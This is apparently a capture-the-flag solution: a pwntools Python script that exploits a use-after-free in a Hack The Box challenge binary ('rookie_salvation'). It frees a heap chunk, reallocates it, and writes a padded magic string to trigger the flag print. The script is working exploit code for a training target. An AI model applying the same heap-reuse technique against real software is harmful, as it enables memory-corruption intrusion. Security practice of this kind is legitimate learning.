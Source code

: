 ## Exploit Code

```python
#!/usr/bin/env python3
from pwn import *

context.binary = elf = ELF('./rookie_salvation')
context.log_level = 'info'

def exploit(target):
    """
    Exploit strategy for Rookie Salvation:
    1. Use obliterate() to free the allocated_space chunk
    2. Use reserve_space() to reallocate the same chunk with size 0x26
    3. Write payload with "w3th4nds" at offset 0x1e (30 bytes)
    4. Call road_to_salvation() to trigger flag print
    
    This is a Use-After-Free (UAF) exploitation combined with heap reuse.
    """
    p = target
    
    # Wait for menu
    p.recvuntil(b'>')
    
    # Step 1: Free the allocated_space chunk using obliterate
    log.info("Step 1: Freeing allocated_space chunk")
    p.sendline(b'2')  # obliterate
    p.recvuntil(b'>')
    
    # Step 2: Reallocate the chunk with reserve_space
    log.info("Step 2: Reallocating chunk with size 0x26 (38 bytes)")
    p.sendline(b'1')  # reserve_space
    p.recvuntil(b'reserve: ')
    
    # Allocate 38 bytes (0x26) - same size as original chunk
    size = 38
    p.sendline(str(size).encode())
    p.recvuntil(b'DELEGHAST: ')
    
    # Step 3: Write payload with "w3th4nds" at offset 0x1e (30 bytes)
    log.info("Step 3: Writing payload with target string at offset 0x1e")
    payload = b'A' * 30  # Padding to reach offset 0x1e
    payload += b'w3th4nds'  # Target string at correct offset
    p.sendline(payload)
    
    # Step 4: Call road_to_salvation to get the flag
    log.info("Step 4: Calling road_to_salvation to trigger flag")
    p.recvuntil(b'>')
    p.sendline(b'3')  # road_to_salvation
    
    # Get the flag
    response = p.recvall(timeout=2)
    log.success(f"Response: {response.decode()}")
    
    # Look for flag pattern
    if b'HTB{' in response:
        flag_start = response.find(b'HTB{')
        flag_end = response.find(b'}', flag_start) + 1
        flag = response[flag_start:flag_end].decode()
        log.success(f"FLAG: {flag}")
    
    p.close()

```